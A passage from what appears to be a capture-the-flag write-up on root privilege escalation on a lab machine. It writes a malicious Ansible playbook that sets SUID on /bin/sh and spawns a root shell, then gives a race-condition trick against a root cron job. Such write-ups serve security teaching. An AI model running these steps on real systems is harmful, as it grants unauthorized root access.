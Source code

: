 ```bash
# phil@inject (bash)
cat << EOF > /opt/automation/tasks/pwnbook.yml
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: chmod +s /bin/sh
EOF
```
{:.nolineno}

After a couple minutes we verify that `/bin/sh`{:.filepath} or `/bin/dash`{:.filepath} have SUID, then spawn a root shell.

```bash
# phil@inject (bash)
/bin/sh -pi
```
{:.nolineno}

#### Alternative Solution (Bonus)

Let's pretend that the magical wildcard used to execute our own playbook didn't exist.
Even without this, we can solve this machine by abusing a race condition in a CRON job.
See, every two minutes _root_ evaluates the playbook at `/opt/automation/tasks/playbook_1.yml`{:.filepath} alongside the following command:

```bash
sleep 10 &&
  rm -rf /opt/automation/tasks/* &&
  cp /root/playbook_1.yml /opt/automation/tasks/
```
{:.nolineno}
```mermaid
 gantt
  dateFormat mm:ss
  axisFormat %M:%S
  tickInterval 2minute
  title Process creation flow
  section CRON Job
  Run playbook : crit, milestone, p1, 00:00, 0s
  Sleep : p2, 00:00, 10s
  Remove playbooks : milestone, p3, 00:10, 0s
  Copy original playbook to tasks folder : milestone, p4, 00:10, 0s
  CRON Wait : w, 00:00, 2m
```

Looking at the timing of the calls from our PSpy log, we notice that the original playbook is deleted then replaced within under a second.
It turns out, we can actually use the time between these actions to entirely prevent the playbook from being replaced.
We do this by creating a **directory** at `/opt/automation/tasks/playbook_1.yml`{:.filepath} while the path is unclaimed.
When the task attempts to populate that path, it runs into an error since a file cannot overwrite a directory no matter what the permissions are.
Once the `cp` command fails, we'll delete the directory and replace it with our malicious playbook, which is then evaluated after a couple minutes.
